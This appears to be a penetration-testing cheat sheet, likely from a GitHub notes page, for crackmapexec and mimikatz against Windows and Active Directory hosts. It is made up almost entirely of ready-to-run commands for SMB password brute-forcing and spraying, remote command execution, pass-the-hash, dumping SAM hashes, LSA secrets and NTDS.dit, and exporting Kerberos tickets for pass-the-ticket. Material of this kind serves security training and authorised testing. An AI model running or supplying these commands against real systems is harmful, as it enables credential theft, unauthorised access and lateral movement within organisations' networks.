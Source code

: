 ### crackmapexec

- If stuck make use of [Wiki](https://www.crackmapexec.wiki/)

```powershell
crackmapexec {smb/winrm/mssql/ldap/ftp/ssh/rdp} #supported services
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success # Bruteforcing attack, smb can be replaced. Shows "Pwned"
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success | grep '[+]' #grepping the way out!
crackmapexec smb <Rhost/range> -u user.txt -p 'password' --continue-on-success  #Password spraying, vice versa can also be done

#Try --local-auth option if nothing comes up
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --shares #lists all shares, provide creds if you have one
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --disks
crackmapexec smb <DC-IP> -u 'user' -p 'password' --users #we need to provide DC ip
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sessions #active logon sessions
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --pass-pol #dumps password policy
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sam #SAM hashes
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --lsa #dumping lsa secrets
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --ntds #dumps NTDS.dit file
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --groups {groupname} #we can also run with a specific group and enumerated users of that group.
crackmapexec smb <Rhost/range> -u 'user' -p 'password' -x 'command' #For executing commands, "-x" for cmd and "-X" for powershell command

#Pass the hash
crackmapexec smb <ip or range> -u username -H <full hash> --local-auth
#We can run all the above commands with hash and obtain more information

#crackmapexec modules
crackmapexec smb -L #listing modules
crackmapexec smb -M mimikatx --options #shows the required options for the module
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz #runs default command
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz -o COMMAND='privilege::debug' #runs specific command-M 
```

- Crackmapexec database

```bash
cmedb #to launch the console
help #run this command to view some others, running individual commands give infor on all the data till now we did.
```

### Pass the ticket

```powershell
.\mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<RHOST>.LOCAL.kirbi
klist
dir \\<RHOST>\admin$
```
